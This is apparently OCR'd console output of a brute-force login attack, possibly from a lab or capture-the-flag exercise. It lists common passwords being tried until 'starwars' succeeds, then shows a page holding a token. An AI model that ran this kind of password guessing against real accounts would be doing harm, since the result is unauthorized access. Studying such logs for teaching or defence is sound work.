     Trying with password:  123456
    Trying with password:  12345
    Trying with password:  1234
    Trying with password:  1234567
    Trying with password:  dragon
    Trying with password:  baseball
    Trying with password:  abc123
    Trying with password:  letmein
    Trying with password:  696969
    Trying with password:  shadow
    Trying with password:  michael
    Trying with password:  654321
    Trying with password:  password
    Trying with password:  superman
    Trying with password:  password1
    Trying with password:  Password1
    Trying with password:  admin
    Trying with password:  1qaz2wsx
    Trying with password:  7777777
    Trying with password:  121212
    Trying with password:  000000
    Trying with password:  qazwsx
    Trying with password:  123qwe
    Trying with password:  killer
    Trying with password:  trustno1
    Trying with password:  jordan
    Trying with password:  jennifer
    Trying with password:  zxcvbnm
    Trying with password:  asdfgh
    Trying with password:  hunter
    Trying with password:  buster
    Trying with password:  soccer
    Trying with password:  harley
    Trying with password:  batman
    Trying with password:  andrew
    Trying with password:  tigger
    Trying with password:  sunshine
    Trying with password:  iloveyou
    Trying with password:  2000
    Trying with password:  charlie
    Trying with password:  robert
    Trying with password:  thomas
    Trying with password:  hockey
    Trying with password:  ranger
    Trying with password:  daniel
    Trying with password:  starwars
    Login successful with password:  starwars
    <!DOCTYPE html>
    <html>
     <body>
      <h1>
       Anon token: 1aae4f5eb740067d22088604cd0dc189
      </h1>
     </body>
    </html>
    

